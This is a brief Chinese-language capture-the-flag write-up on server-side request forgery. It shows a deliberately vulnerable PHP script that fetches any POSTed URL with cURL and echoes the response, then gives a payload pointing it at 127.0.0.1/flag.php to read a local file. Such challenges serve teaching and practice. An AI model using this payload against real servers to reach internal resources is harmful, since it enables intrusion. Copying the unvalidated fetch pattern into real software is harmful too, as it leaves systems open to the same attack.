

# 知识点
SSRF

# 思路
代码分析
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);//初始化 cURL 会话
curl_setopt($ch, CURLOPT_HEADER, 0);//启用时会将头文件的信息作为数据流输出。
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);//将curl_exec()获取的信息以文件流的形式返回，而不是直接输出。
$result=curl_exec($ch);//执行 cURL 会话
curl_close($ch);//关闭 cURL 会话
echo ($result);
?>

```
payload
```
url=127.0.0.1/flag.php
```

